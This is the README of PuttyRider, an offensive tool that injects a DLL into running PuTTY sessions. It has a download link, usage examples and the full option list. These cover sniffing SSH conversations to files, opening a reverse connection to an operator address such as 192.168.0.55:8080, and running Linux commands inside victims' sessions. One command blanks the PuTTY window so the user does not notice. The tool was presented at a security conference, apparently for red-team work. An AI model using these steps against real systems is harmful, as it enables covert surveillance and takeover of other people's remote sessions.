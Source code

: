 PuttyRider
==========
Hijack Putty sessions in order to sniff conversation and inject Linux commands.

Download
========
[PuttyRider-bin.zip](https://github.com/seastorm/PuttyRider/releases/download/0.1/PuttyRider-bin.zip)


Documentation
=============
* [Defcamp 2014 presentation - pdf](http://defcamp.ro/dc14/AdrianFurtuna.pdf)
* [Defcamp 2014 presentation - video](https://www.youtube.com/watch?v=nfhzoFPGUhg&list=UUc05xgnkf4YZEdn3zBJRFkA)

Examples
========
List existing Putty processes and their status (injected / not injected)
    PuttyRider.exe -l

Inject DLL into the first found putty.exe and initiate a reverse connection from DLL to my IP:Port, then exit PuttyRider.exe.
    PuttyRider.exe -p 0 -r 192.168.0.55:8080

Run in background and wait for new Putty processes. Inject in any new putty.exe and write all conversations in local files. 
    PuttyRider.exe -w -f

Eject PuttyRider.dll from all Putty processes where it is already injected. 
(Don't forget to kill PuttyRider.exe if running in -w mode, otherwise it will reinject again.)
    PuttyRider.exe -x
    
Usage
=====
	Operation modes:
		-l		List the running Putty processes and their connections
		-w		Inject in all existing Putty sessions and wait for new sessions
				to inject in those also
		-p PID  Inject only in existing Putty session identified by PID.
				If PID==0, inject in the first Putty found
		-x		Cleanup. Remove the DLL from all running Putty instances
		-d		Debug mode. Only works with -p mode
		-c CMD  Automatically execute a Linux command after successful injection
				PuttyRider will remove trailing spaces and '&' character from CMD
				PuttyRider will add: " 1>/dev/null 2>/dev/null &" to CMD
		-h		Print this help

	Output modes:
		-f			Write all Putty conversation to a file in the local directory.
					The filename will have the PID of current putty.exe appended
		-r IP:PORT	Initiate a reverse connection to the specified machine and
					start an interactive session.

	Interactive commands (after you receive a reverse connection):
		!status		See if the Putty window is connected to user input
		!discon		Disconnect the main Putty window so it won't display anything
					This is useful to send commands without the user to notice
		!recon		Reconnect the Putty window to its normal operation mode
		CMD			Linux shell commands
		!exit		Terminate this connection
		!help		Display help for client connection

		
Compiling
=========
Use Visual Studio Command Prompt:

	nmake main dll

Acknowledgements
================
Thanks to Brett Moore of Insomnia Security for his proof of concept [PuttyHijack](https://www.insomniasec.com/downloads/tools/PuttyHijackV1.0.rar)


